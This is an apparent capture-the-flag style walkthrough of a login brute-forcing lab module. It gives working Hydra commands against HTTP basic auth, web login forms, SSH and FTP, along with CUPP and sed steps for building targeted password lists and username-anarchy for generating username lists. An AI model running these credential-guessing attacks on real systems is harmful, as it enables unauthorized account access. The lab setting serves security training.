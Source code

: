 # Login Brute Forcing

## Basic HTTP Auth brute Forcing

### Default PWs - Hydra

**Using the technique you learned in this section, try attacking the IP shown above. What are the credentials used?**

`hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.51.157 -s 39675 http-get /`

<figure><img src=".gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

### Username Brute Force - Hydra

**Try running the same exercise on the question from the previous section, to learn how to brute force for users.**

`hydra -L /usr/share/seclists/Usernames/Names/names.txt -P /home/zihuatanejo/Desktop/rockyou.txt -u -f 94.237.51.157 -s 39675 http-get /`

* answer is the same as for the previous one...

## Web Forms Brute Forcing

### Login Form Attacks

**Using what you learned in this section, try attacking the '/login.php' page to identify the password for the 'admin' user. Once you login, you should find a flag. Submit the flag as the answer.**

`hydra -l admin -P /home/zihuatanejo/Desktop/rockyou.txt -f 94.237.51.157 -s 39675 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`

<figure><img src=".gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

## Service Auth Attacks

### Service Auth Brute Forcing

**Using what you learned in this section, try to brute force the SSH login of the user "b.gates" in the target server shown above. Then try to SSH into the server. You should find a flag in the home dir. What is the content of the flag?**

* create custom wordlist william.txt from previous section...
  * CUPP tool
    * `cupp i`
* add modifications to created wordlist...
  * `sed -ri ‘/^.{,7}$/d’ william.txt # remove shorter than 8`&#x20;
  * ``$sed -ri ‘/[!-/:-@[-`{-~]+/!d’ william.txt # remove no specialchars``&#x20;
  * `$sed -ri ‘/[0–9]+/!d’ william.txt # remove no numbers`

<figure><img src=".gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

* run Hydra against SSH
  * `hydra -l b.gates -P william.txt -u -f ssh://94.237.50.84:40002`
    * _username: b.gates_
    * _password: wordlist william.txt_
    * _service: ssh_
  * we obtained PW
* `ssh b.gates@94.237.50.84 -p40002`
  * PW: from hydra attack...
  * `cat flag.txt`

**Once you ssh in, try brute forcing the FTP login for the other user. You should find another flag in their home directory. What is the flag?**

<figure><img src=".gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>

* there is port 21 (FTP) running...
* let´s brute-force FTP login for the m.gates...
  * (cd /home && ls -> dir m.gates)
*   hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1

    <figure><img src=".gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>


* obtain FLAG
  * `ftp 127.0.0.1`
  * `name: m.gates`
  * `pw: computer`
  * `ls -> flag.txt`
  * `get flag.txt`
  * `exit`
  * `ls`
  * `cat flag.txt`

<figure><img src=".gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

## Skills Assessment

### Skills Assessment - Website

**When you try to access the IP shown above, you will not have authorization to access it. Brute force the authentication and retrieve the flag.**

`hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.51.157 -s 37248 http-get /`

<figure><img src=".gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

* login to obtain flag

**Once you access the login page, you are tasked to brute force your way into this page as well. What is the flag hidden inside?**

`hydra -l user -P /home/zihuatanejo/Desktop/rockyou.txt -f 94.237.51.157 -s 37248 http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='log-in'"`

<figure><img src=".gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure>

* login to obtain flag

### Skills Assessment - Service Login

**As you now have the name of an employee from the previous skills assessment question, try to gather basic information about them, and generate a custom password wordlist that meets the password policy. Also use 'usernameGenerator' to generate potential usernames for the employee. Finally, try to brute force the SSH server shown above to get the flag.**

* generate list connected with Harry
  * `cupp -i`&#x20;
    * Harry&#x20;
    * special-characters-end-of-words= Y&#x20;
    * 1337 = Y&#x20;
* generate username list
  * `git clone` [`https://github.com/urbanadventurer/username-anarchy.git`](https://github.com/urbanadventurer/username-anarchy.git)
  * `cd username-anarchy/`
  * `./username-anarchy Harry Potter > user_harry.txt`
*   bruteforce SSH

    * `hydra -L user_harry.txt -P harry.txt -u -f ssh://94.237.54.197:51766 -t 4`

    <figure><img src=".gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>


* SSH login
  * `ssh harry.potter@94.237.54.197 -p51766`
    * `cat flag.txt`

**Once you are in, you should find that another user exists in server. Try to brute force their login, and get their flag.**

<figure><img src=".gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>

* there is a user g.potter
* netstat -antp | grep -i list
  * to see other services running...

<figure><img src=".gitbook/assets/image (118).png" alt=""><figcaption></figcaption></figure>

* bruteforce FTP login

<figure><img src=".gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>

* obtain FLAG
  * `ftp 127.0.0.1`
  * `name: g.potter`
  * `PW`&#x20;
  * `ls -> flag.txt`
  * `get flag.txt`
  * `exit`
  * `ls`
  * `cat flag.txt`
